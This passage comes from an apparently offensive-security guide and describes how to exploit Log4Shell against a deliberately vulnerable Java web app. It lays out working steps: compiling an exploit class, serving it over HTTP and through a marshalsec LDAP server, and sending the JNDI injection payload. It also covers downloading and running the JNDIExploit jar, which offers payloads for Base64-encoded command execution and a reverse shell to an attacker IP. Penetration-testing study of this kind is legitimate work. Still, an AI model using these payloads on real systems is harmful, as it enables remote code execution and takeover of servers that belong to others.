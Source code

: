 Compile the Java file into a class file using: `javac Exploit.java -source 8 -target 8`. Next, initiate a **HTTP server** in the directory containing the class file with: `python3 -m http.server`. Ensure the **marshalsec LDAP server** references this HTTP server.

Trigger the execution of the exploit class on the susceptible web server by dispatching a payload resembling:

```bash
${jndi:ldap://<LDAP_IP>:1389/Exploit}
```

**Note:** This exploit hinges on Java's configuration to permit remote codebase loading via LDAP. If this is not permissible, consider exploiting a trusted class for arbitrary code execution.

### RCE - **JNDIExploit**

{% hint style="info" %}
Note that for some reason the author removed this project from github after the discovery of log4shell. You can find a cached version in [https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) but if you want to respect the decision of the author use a different method to exploit this vuln.

Moreover, you cannot find the source code in wayback machine, so either analyse the source code, or execute the jar knowing that you don't know what you are executing.
{% endhint %}

For this example you can just run this **vulnerable web server to log4shell** in port 8080: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) (_in the README you will find how to run it_). This vulnerable app is logging with a vulnerable version of log4shell the content of the HTTP request header _X-Api-Version_.

Then, you can download the **JNDIExploit** jar file and execute it with:

```bash
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888 # Use your private IP address and a port where the victim will be able to access
```

After reading the code just a couple of minutes, in _com.feihong.ldap.LdapServer_ and _com.feihong.ldap.HTTPServer_ you can see how the **LDAP and HTTP servers are created**. The LDAP server will understand what payload need to be served and will redirect the victim to the HTTP server, which will serve the exploit.\
In _com.feihong.ldap.gadgets_ you can find **some specific gadgets** that can be used to excute the desired action (potentially execute arbitrary code). And in _com.feihong.ldap.template_ you can see the different template classes that will **generate the exploits**.

You can see all the available exploits with **`java -jar JNDIExploit-1.2-SNAPSHOT.jar -u`**. Some useful ones are:

```bash
ldap://null:1389/Basic/Dnslog/[domain]
ldap://null:1389/Basic/Command/Base64/[base64_encoded_cmd]
ldap://null:1389/Basic/ReverseShell/[ip]/[port]
# But there are a lot more
```
